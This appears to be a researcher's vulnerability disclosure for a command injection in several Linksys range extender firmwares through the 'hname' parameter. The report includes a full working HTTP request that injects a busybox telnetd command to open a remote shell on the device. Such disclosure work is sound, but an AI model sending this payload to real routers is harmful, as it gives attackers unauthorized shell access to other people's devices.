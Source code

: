 # Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500



## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `RP_setBasicAuto` function, `hname` is directly passed by the attacker, so we can control the `hname` to attack the OS.

As you can see here, the input has not been checked. And then,call the function `nvram_bufset ` to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

`mod_form.so->internet.sh->um_red`

In `um_red` binary:

Eventually, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `hname` as **`busybox telnetd -l /bin/sh -p 2234`** , and the router will excute it,such as:

```http
POST /goform/RP_setBasicAuto HTTP/1.1
Host: 192.168.2.26
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1271
Origin: http://192.168.2.26
Connection: close
Referer: http://192.168.2.26/wireless/wireless_basic.shtml
Cookie: session_id=DYhMeT5zL1zkUT74mwWXjf0QcW6Oo8y0
Upgrade-Insecure-Requests: 1

hname=`busybox telnetd -l /bin/sh -p 2234`&fname=Linksys+Range+Extender&cType=DHCP&staticIp=&staticNetmask=&staticGateway=&staticPriDns=&staticSecDns=&staticTrdDns=&TZ=CST_008&save_time=0&device_mode=2&ap_disable_2G=0&ap_mode_2G=9&ap_ssid_2G=pjqwudi&ap_encrypt_2G=AES&ap_AuthMode_2G=WPA2-PSK&ap_DefaultKeyID_2G=&ap_Key1Str1_2G=&ap_Key2Str1_2G=&ap_Key3Str1_2G=&ap_Key4Str1_2G=&ap_EncKey_2G=YWJjMTIzMTIz&ap_channel_2G=0&ap_ext_channel_2G=0&ap_channelWidth_2G=1&ssid_broadcast_AP_2G=2&needset_WscConfigured_2G=1&apcli_ssid_2G=&apcli_encrypt_2G=Not+Use&apcli_AuthMode_2G=NONE&apcli_DefaultKeyID_2G=&apcli_Key1Str1_2G=&apcli_Key2Str1_2G=&apcli_Key3Str1_2G=&apcli_Key4Str1_2G=&apcli_EncKey_2G=&apcli_channel_2G=0&apcli_channelWidth_2G=1&ap_disable_5G=0&ap_mode_5G=14&ap_ssid_5G=pjqwudi1&ap_encrypt_5G=AES&ap_AuthMode_5G=WPA2-PSK&ap_DefaultKeyID_5G=&ap_Key1Str1_5G=&ap_Key2Str1_5G=&ap_Key3Str1_5G=&ap_Key4Str1_5G=&ap_EncKey_5G=YWJjMTIzMTIz&ap_channel_5G=0&ap_ext_channel_5G=0&ap_channelWidth_5G=2&ssid_broadcast_AP_5G=2&needset_WscConfigured_5G=1&apcli_ssid_5G=&apcli_encrypt_5G=Not+Use&apcli_AuthMode_5G=NONE&apcli_DefaultKeyID_5G=&apcli_Key1Str1_5G=&apcli_Key2Str1_5G=&apcli_Key3Str1_5G=&apcli_Key4Str1_5G=&apcli_EncKey_5G=&apcli_channel_5G=0&apcli_channelWidth_5G=2&b64_pwd=1
```



## Result

Get a shell!

<div  align="center"><img src="./images/6.png" style="zoom:80%;" /></div>

